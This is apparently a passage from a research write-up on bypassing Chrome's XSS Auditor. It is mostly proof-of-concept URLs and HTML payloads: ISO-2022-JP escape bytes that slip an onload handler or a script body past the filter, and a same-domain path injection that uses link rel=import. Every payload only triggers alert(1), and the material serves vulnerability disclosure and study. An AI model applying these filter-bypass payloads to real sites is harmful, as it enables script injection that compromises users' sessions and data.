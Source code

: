 Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=114941
- https://l0.cm/encodings/test3/

PoCs:

- https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Bnload=alert(1)%3E
- https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Hnload=alert(1)%3E
- https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Jnload=alert(1)%3E
```html
<meta charset=iso-2022-jp><svg o[0x1B](Bnload=alert(1)>
```

(*Because the $ sign is arbitrarily encoded and does not work as intended, the redirect is sandwiched by a method that includes a $.)

- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0A%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0A%3C/script%3E)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$B%0A%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$B%0A%3C/script%3E)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B(I%0A%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B\(I%0A%3C/script%3E)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0D%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0D%3C/script%3E)

```html
<meta charset=iso-2022-jp><script>alert(1)[0x1B]$@[0x0A]</script>
```

### Use of resources in the same domain

XSS Auditor does not block loading same-domain resources that do not have queries. Bypassing is possible in some cases if the resources necessary for an attack can be placed in the same domain.

#### Case with XSS in path (Chrome only)

Conditions for attacking:

1. XSS that can write arbitrary tags is in the path
2. Doesn't require a query to display the page

PoCs:

https://vulnerabledoma.in/bypass/path/%3Clink%20rel=import%20href=%22%2Fbypass%2Fpath%2F%3Cscript%3Ealert(1)%3C%2Fscript%3E%22%3E

```html
PATH_INFO:/<link rel=import href="/bypass/path/<script>alert(1)</script>">
```
